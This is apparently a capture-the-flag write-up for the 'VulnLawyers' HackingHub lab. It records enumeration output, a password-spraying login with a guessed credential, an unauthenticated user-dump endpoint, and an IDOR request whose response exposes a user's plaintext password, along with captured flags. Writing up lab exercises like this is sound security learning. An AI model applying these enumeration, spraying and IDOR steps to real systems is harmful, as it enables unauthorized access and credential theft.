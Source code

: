 # Scope

```bash
mazer.ctfio.com
```

# Enumeration

## Dirsearch

```bash
Target: https://mazer.ctfio.com/

[05:56:24] Starting: 
[05:56:28] 301 -  178B  - /js  ->  https://mazer.ctfio.com/js/              
[05:57:13] 301 -  178B  - /css  ->  https://mazer.ctfio.com/css/              
[05:57:25] 403 -  564B  - /images/                                          
[05:57:25] 301 -  178B  - /images  ->  https://mazer.ctfio.com/images/      
[05:57:28] 403 -  564B  - /js/                                              
[05:57:31] 302 -    1KB - /login  ->  /denied                               
[05:57:31] 302 -    1KB - /login/  ->  /denied 
```

## Vhosts

```bash
data                    [Status: 200, Size: 109, Words: 3, Lines: 1, Duration: 177ms]
:: Progress: [1907/1907] :: Job [1/1] :: 146 req/sec :: Duration: [0:00:09] :: Errors: 0 ::
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/VunLawyers%20(HackingHub)/Images/image%20(1).png?raw=true)

## Website functionality

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/VunLawyers%20(HackingHub)/Images/image%20(3).png?raw=true)

- X-Forwarded-For
- SSRF

```bash
               <p>Access to this portal can now be found here <a href=/lawyers-only">/lawyers-only</a></p>
                <p>[^FLAG^FB52470E40F47559EBA87252B2D4CF67^FLAG^]</p>
```

## Investigating `lawyers-only`  endpoint

- login form

```bash
POST /lawyers-only-login HTTP/1.1
Host: mazer.ctfio.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: https://mazer.ctfio.com
Referer: https://mazer.ctfio.com/lawyers-only-login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

email=admin&password=admin
```

- ~~SQL injection~~
- ~~NoSQL injection~~
- Password Spraying
- Username Enumeration

```bash
email=jaskaran.lowe@vulnlawyers.ctf&password=summer
```

## VulnLaywers API (data vhost)

## Dirsearch

```bash
Target: https://data.zeus.ctfio.com/

[06:48:12] Starting: 
[06:48:54] 200 -  396B  - /users
```

- `Machine time out, use next machine`
- We were able to dump the users

# Authenticated access to the portal

```bash
GET /lawyers-only-profile-details/2 HTTP/1.1
Host: zeus.ctfio.com
Cookie: token=7BCC07AAE3CCD9CD66223DF6D6932582
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Referer: https://zeus.ctfio.com/lawyers-only-profile
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: keep-alive
```

- This endpoint is vulnerable to IDOR on the ID parameter that exposes victim’s full passwords

```bash
HTTP/1.1 200 OK
Server: nginx/1.22.0 (Ubuntu)
Date: Thu, 15 May 2025 11:19:45 GMT
Content-Type: application/json
Connection: keep-alive
Content-Length: 155

{"id":2,"name":"Shayne Cairns","email":"shayne.cairns@vulnlawyers.ctf","password":"q2V944&#2a1^3p","flag":"[^FLAG^938F5DC109A1E9B4FF3E3E92D29A56B3^FLAG^]"}
```

```bash

There are no more cases

[^FLAG^B38BAE0B8B804FCB85C730F10B3B5CB5^FLAG^]
```
